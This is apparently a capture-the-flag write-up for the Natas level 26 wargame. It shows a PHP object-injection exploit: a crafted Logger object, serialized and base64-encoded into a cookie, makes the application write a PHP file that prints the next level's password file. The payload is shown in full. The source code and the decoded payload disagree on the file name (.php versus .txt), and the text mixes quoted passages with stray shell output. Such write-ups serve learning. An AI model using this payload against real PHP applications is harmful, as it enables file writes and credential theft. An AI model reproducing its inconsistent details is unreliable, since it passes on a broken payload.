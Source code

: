 [https://www.php.net/manual/en/language.oop5.serialization.php](https://www.php.net/manual/en/language.oop5.serialization.php)

```php
class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct(){
        $this->initMsg="heyyyyyy\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile= "/var/www/natas/natas26/img/n0j.php";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbjBqLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjk6ImhleXl5eXl5CiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
php > exit
@0fb5bda9f64c:/#
echo "Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbjBqLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjk6ImhleXl5eXl5CiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=" | base64 -d
O:6:"Logger":3:{s:15:"LoggerlogFile";s:34:"/var/www/natas/natas26/img/n0j.txt";s:15:"LoggerinitMsg";s:9:"heyyyyyy
";s:15:"LoggerexitMsg";s:63:"<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>
";}
```

```text
Obviously the message we’re after is the password to natas27 so we grab that and load it into a variable. We know we can write to the img folder because that’s what the application does with legitimate images. We also know we’ll be able to read it back from there, again because that’s what the application does with legitimate images.
A note on how this works… why would we send a Logger object into a function that’s expecting arrays with coordinates and whatnot, doesn’t sound like that will work. 
Short answer - it doesn’t work! 

But the object is loaded into the $drawing variable so when its life ends the destructor will be called and that’s all we care about.
```

so basiclly, we overwrite the variables set in the logger class at a later stage in the script. We can do this since unserialize only loads the variables from classes into the application scope, not de the defination of the class it self when the object has been serialized.

We can overwrite these values since the cookie is used to send over the serialized data and we have full control over the cookie we send.

When deserializeing the cookie the entire cookie is added to $drawing. This means our initMsg, exitMsg and logFile from our custom logger class are now loaded into the application scope and now have replaced the orginal values when the class was defined.

